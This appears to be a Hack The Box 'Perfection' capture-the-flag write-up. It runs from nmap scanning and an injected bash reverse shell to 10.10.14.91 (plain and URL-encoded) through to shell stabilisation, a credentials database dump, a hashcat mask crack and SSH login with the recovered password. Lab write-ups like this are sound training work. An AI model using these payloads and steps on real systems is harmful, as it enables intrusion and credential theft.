 # Perfection Write-up

<img src="https://labs.hackthebox.com/storage/avatars/57fc0f58916cb3ed8e793db071769d70.png" width="200" height="200">

##  Nmap

`nmap -sC -sV perfection.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
    |_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
    80/tcp open  http    nginx
    |_http-title: 502 Bad Gateway
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Visit perfection.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/4ddecf13-024d-4b4a-b639-a7c8f614d947)

`perfection.htb/weighted-grade`

![image](https://github.com/zer00d4y/writeups/assets/128820441/143b1c47-9688-4429-923e-70f885b9a963)

Wappalyzer Ruby

![image](https://github.com/zer00d4y/writeups/assets/128820441/796cd7b9-4510-41b3-bf95-7a3a0039db5f)



![image](https://github.com/zer00d4y/writeups/assets/128820441/e63b50c3-2697-41fe-916a-56e07e04e2a9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/a5a65d54-a81a-48ca-82b3-a7f189e03369)

![image](https://github.com/zer00d4y/writeups/assets/128820441/61c5f7f4-4e29-48cb-87c1-48f9aac3ab61)

bash -c 'bash -i >& /dev/tcp/10.10.14.91/4242 0>&1

bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.91/4242+0>%261'

![image](https://github.com/zer00d4y/writeups/assets/128820441/23ec8526-0b18-49bf-b1f2-49bc24bdb763)

![image](https://github.com/zer00d4y/writeups/assets/128820441/583ba02d-ec4b-46ea-a614-9c096d09dfc1)

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

ctrl + z

`stty raw -echo; fg`

![image](https://github.com/zer00d4y/writeups/assets/128820441/0a989f9d-3fc2-42db-9685-fe58d14f5d5f)

![image](https://github.com/zer00d4y/writeups/assets/128820441/5e20af03-b52e-418d-b107-2845cb3b948f)

## Privilege Escalation

    sqlite3 pupilpath_credentials.db
    .databases
    .tables
    select * from users;

### hashcat

`hashcat -m 1400 -a 3 file_name> susan_nasus_?d?d?d?d?d?d?d?d?d`

### SSH

`ssh susan@10.10.11.253`

password: `susan_nasus_413759210`

![image](https://github.com/zer00d4y/writeups/assets/128820441/dac15776-dae7-4913-b3c3-2f148c367fd1)




